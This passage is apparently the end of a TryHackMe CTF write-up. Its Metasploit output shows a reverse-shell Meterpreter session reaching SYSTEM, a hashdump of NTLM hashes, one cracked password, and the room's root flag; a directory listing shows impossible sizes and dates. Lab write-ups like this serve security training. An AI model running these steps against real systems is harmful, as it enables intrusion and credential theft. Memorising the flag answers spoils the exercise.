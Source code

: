   Mode              Size             Type  Last modified                      Name
  ----              ----             ----  -------------                      ----
  100666/rw-rw-rw-  1211180777754    fil   211641783000-06-29 17:21:19 +0100  desktop.ini
  100666/rw-rw-rw-  158913789989     fil   214344271123-10-28 09:41:29 +0000  root.txt.txt
  100777/rwxrwxrwx  316977176453194  fil   237816259415-06-16 14:07:17 +0100  shell.exe
  
  meterpreter > execute -f shell.exe
  Process 10460 created.
  ```

  ```
  msf6 exploit(multi/handler) > run
  [*] Started reverse TCP handler on [YOUR-THM-IP]:7777 
  [*] Sending stage (177734 bytes) to 10.10.10.69
  [*] Meterpreter session 2 opened ([YOUR-THM-IP]:7777 -> 10.10.10.69:49485) at 2025-05-15 21:16:30 +0100
  
  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  ```

- Awesome, now dump them hashes and crack it to finish the job.

  ```
  meterpreter > hashdump
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
  meterpreter > 
  
  30e87bf999828446a1c1209ddde4c450 -> googleplus
  ```

- I love me some Metasploit practice!
  
---

## 🏁 Flags

- **Lab user NTLM hash decrypted**: `googleplus`
- **Root Flag**: `THM{aea1e3ce6fe7f89e10cea833ae009bee}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing much, I expected much more from Windows machine honestly.`

- What did I learn?
  `To change the payload in Metasploit...`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---

